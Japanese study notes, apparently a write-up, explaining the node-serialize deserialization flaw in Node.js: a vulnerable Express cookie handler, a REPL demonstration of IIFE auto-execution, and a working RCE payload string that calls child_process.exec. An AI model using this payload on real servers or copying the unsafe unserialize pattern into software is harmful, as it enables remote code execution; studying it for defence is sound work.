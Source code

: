 ```js
  if (req.cookies.profile) {
    // Cookieのprofileの値をbase64デコード
    var str = new Buffer(req.cookies.profile,
    'base64').toString();
    // ここが脆弱！
    // Cookieの値をbase64デコードしたものを逆シリアライズする
    var obj = serialize.unserialize(str);
    // Cookieの中の値を逆シリアライズによってオブジェクトにして、値を取り出す
    if (obj.username) {
    res.send("Hello " + escape(obj.username));
      }
    } else {
      res.cookie('profile',
      "eyJ1c2VybmFtZSI6ImFqaW4iLCJjb3VudHJ5IjoiaW5kaWEiLCJjaXR5Ijo
      iYmFuZ2Fsb3JlIn0=", { maxAge: 900000, httpOnly: true});
    }
  res.send("Hello World");
});

app.listen(3000);
```
`serialize.unserialize(str)`が脆弱。   
この逆シリアライズする中に、IIFE形式の関数があれば逆シリアライズしたときに呼び出されなくても自動的に実行する。   
```txt
> var x = {'a': function(){console.log('a')}}  // 普通。宣言しただけでは実行されない
undefined
> x.a
[Function: a]
> x.a();  // メソッドを指定して初めて実行される
a
undefined
> var x = {'a': function(){console.log('a')}()}  // IIFE形式。最後に()を足す
a         // 宣言したときにすぐに実行される！
undefined
> 
```
よって、以下のようなシリアライズされた文字列に`()`を付け足してIIFE形式にすることで、逆シリアライズ時に即時実行される。   
ここでは、`{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}`をbase64エンコードしたものをCookieにセットするとRCEできる！   
```txt
> var serialize = require('node-serialize');
> var poc = {x: function(){console.log("POC")} }
undefined
> serialize.serialize(poc)
'{"x":"_$$ND_FUNC$$_function(){console.log(\\"POC\\")}"}'
> var y = { rce : function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}, }
undefined
> serialize.serialize(y)
`{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}"}`
```

